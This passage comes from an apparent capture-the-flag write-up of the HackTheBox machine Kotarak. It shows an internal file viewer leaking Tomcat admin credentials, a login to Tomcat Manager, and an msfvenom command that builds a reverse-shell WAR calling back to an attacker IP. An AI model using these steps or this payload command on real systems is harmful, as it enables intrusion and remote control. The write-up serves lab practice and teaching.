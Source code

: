 This is interesting. I can’t just put a password in and try to login, as the
POST goes back to the service on 60000, not the on on 320. I can come back to
this and play with trying to send a POST request using Gopher or something
else, but I didn’t end up using this, and confirmed on rooting that it was
just a static page, so a rabbit hole.

Port 888 presents a “Simple File Viewer”:

![image-20210514073528155](https://0xdfimages.gitlab.io/img/image-20210514073528155.png)

The images don’t load (the references are to port 888, and my browser can’t
access those). And the links are broken on clicking on them as they look like:

    
    
    <a href="?doc=on"  class="tableElement">
    

Clicking this will load `http://10.10.10.55:60000/url.php?doc=on`. But if I
was directly visiting `http://127.0.0.1:888`, it would load
`http://127.0.0.1:888/?doc=on`. I can put that into the Kotarak browser, and
it returns nothing. That makes sense, as the page says `on` is zero bytes. Of
the three files of any size, two aren’t useful. `blah` is a bunch of As,
`tetris.c` is exactly what you might expect, C code for a game that looks like
Tetris. `backup` is:

![image-20210514074103740](https://0xdfimages.gitlab.io/img/image-20210514074103740.png)

This is the `tomcat_users.xml` file that configures access to Tomcat.

### Malicious WAR

#### Access Tomcat Manager

The admin user in the backup file has access to `manager` and `manager-gui`,
so I’ll try visiting `http://10.10.10.55:8080` again, and entering the creds
lets me in:

![image-20210514090529954](https://0xdfimages.gitlab.io/img/image-20210514090529954.png)

#### Generate WAR

To get a shell from here is relatively simple, just like in
[Jerry](/2018/11/17/htb-jerry.html#exploiting-tomcat) and
[Tabby](/2020/11/07/htb-tabby.html#text-based-manager) (though in Tabby I had
to use the text-based manager instead of the html one because the user I
leaked had only `manager-script`).

I’ll generate a reverse shell payload using `msfvenom`:

    
    
    oxdf@parrot$ msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.15 LPORT=443 -f war -o rev.war
    Payload size: 13318 bytes
    Final size of war file: 13318 bytes
    Saved as: rev.war
    